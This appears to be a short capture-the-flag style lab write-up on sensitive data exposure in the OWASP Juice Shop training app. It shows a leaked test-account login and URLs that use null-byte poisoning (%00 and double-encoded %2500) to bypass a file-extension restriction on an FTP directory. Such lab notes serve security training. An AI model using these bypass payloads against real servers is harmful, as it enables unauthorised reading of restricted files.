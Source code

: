 # AH! Don't look! 

OWASP TOP 10 - Sensitive Data Exposure

## Practical

### Confidential Document

![86f499de06e0d01d849b8d62986abafe.png](_resources/a5dd66360f764b6bae25be12085ae8f5.png)

http://10.10.46.205/ftp/legal.md

![a365945555138030e114de230dc4925c.png](_resources/91904113a7604edcac6304d5d9923646.png)

###  Login MC SafeSearch

`mc.safesearch@juice-sh.op:Mr. N00dles`

![b6c02b2aebc1e19e625e9b1ba179b81d.png](_resources/3eae80a2adc344ee897f396a0e0a7b72.png)

### Bypass file restriction with null byte

```
http://10.10.46.205/ftp/package.json.bak
```

![e0ad1276c97f300efefa1d320830217d.png](_resources/e003ed98451d4bcfbc989e4ab248535a.png)

Null-byte poisoning
```
http://10.10.46.205/ftp/package.json.bak%00.md
```

![25b5b856f88f1f7cc2b9cca5149c0119.png](_resources/f147d30851e54a4f99e374a550dffc81.png)

Null-byte poisoining with superflous url encode

```
10.10.46.205/ftp/package.json.bak%2500.md
```

`%25` = `%`  
`%00` = `null`
`%2500` => `%00` => `null` (terminated)  

![fd7af6e8caaed6a4cef6d41be77f0fe0.png](_resources/2be91c0b7df74162992c2d52c4afa9ab.png)


[Common obstacles to exploiting file path traversal vulnerabilities](undefined)


